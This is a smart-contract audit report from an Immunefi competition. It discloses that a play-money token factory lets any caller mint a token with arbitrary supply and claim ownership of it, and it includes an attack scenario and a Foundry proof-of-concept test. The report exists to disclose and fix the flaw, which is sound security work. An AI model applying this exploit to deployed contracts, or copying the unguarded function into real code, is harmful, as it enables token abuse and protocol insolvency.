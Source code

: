 # #39153 \[SC-Insight] Unauthorized Token Creation and Minting Vulnerability

**Submitted on Jan 23rd 2025 at 15:35:01 UTC by @kenzo for** [**Audit Comp | Butter**](https://immunefi.com/audit-competition/audit-comp-butter)

* **Report ID:** #39153
* **Report Type:** Smart Contract
* **Report severity:** Insight
* **Target:** https://github.com/immunefi-team/audit-comp-butter-cfm-v1-playmoney
* **Impacts:**
  * Protocol insolvency
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

The `PlayCollateralTokenFactory` contract contains a critical vulnerability in its `createCollateralToken` function that allows any user to create tokens with arbitrary supply and gain full control over token transfers. This bypasses the intended restrictive nature of the token contract where only specific addresses should be able to send/receive tokens.

## Vulnerability Details

The vulnerability exists in the `createCollateralToken` function of the `PlayCollateralTokenFactory` contract:

```solidity
function createCollateralToken(
    string memory name, 
    string memory symbol, 
    uint256 initialSupply, 
    address owner
) external returns (address) {
    PlayCollateralToken newToken = new PlayCollateralToken(
        name, 
        symbol, 
        initialSupply,
        CONDITIONAL_TOKENS, 
        owner
    );
    
    emit PlayCollateralTokenCreated(address(newToken));
    return address(newToken);
}
```

The vulnerability arises because:

1. Any address can call `createCollateralToken`
2. The caller can specify any amount for `initialSupply`
3. The caller can make themselves the owner
4. As owner, they gain full control over token transfers

Attack scenario:

1. Attacker calls `createCollateralToken` with themselves as owner
2. Attacker creates massive supply of tokens
3. Being the owner, attacker can now transfer tokens to any address
4. This bypasses the intended restriction where only owner or ConditionalTokens should control transfers.

## Impact Details

As stated in PlayCollateralToken.sol, this is a restrictive ERC20 for "play money": only the owner or ConditionalTokens can send or receive tokens. However, due to this vulnerability:

1. Any address can create new tokens with themselves as owner
2. They can mint arbitrary amounts of tokens
3. As owner, they gain full transfer rights, bypassing the intended restrictions
4. This completely breaks the token's security model where transfers should be restricted

## Recommendation

Add access control to the `createCollateralToken` function to ensure only authorized addresses can create new tokens.

## Proof of Concept

Add this to PlayCollateralTokenFactoryTest.t.sol

```
function testUnauthorizedTokenCreation() public {
       address attacker = makeAddr("attacker");
       vm.startPrank(attacker);
       
       // Create token with massive supply for attacker
       uint256 massiveSupply = 1_000_000_000_000 ether;
       address tokenAddr = factory.createCollateralToken(
           "Token",
           "TKN",
           massiveSupply,
           attacker
       );

       PlayCollateralToken token = PlayCollateralToken(tokenAddr);

       // Verify attacker has full control
       assertEq(token.OWNER(), attacker, "Attacker should be owner");
       assertEq(token.balanceOf(attacker), massiveSupply, "Attacker should have all tokens");
       assertEq(token.totalSupply(), massiveSupply, "Total supply should be massive");

       vm.stopPrank();

       // Log the details
       emit log_named_address("Token creator & owner", attacker);
       emit log_named_address("Token address", tokenAddr);
       emit log_named_uint("Supply created", massiveSupply);
   }
```
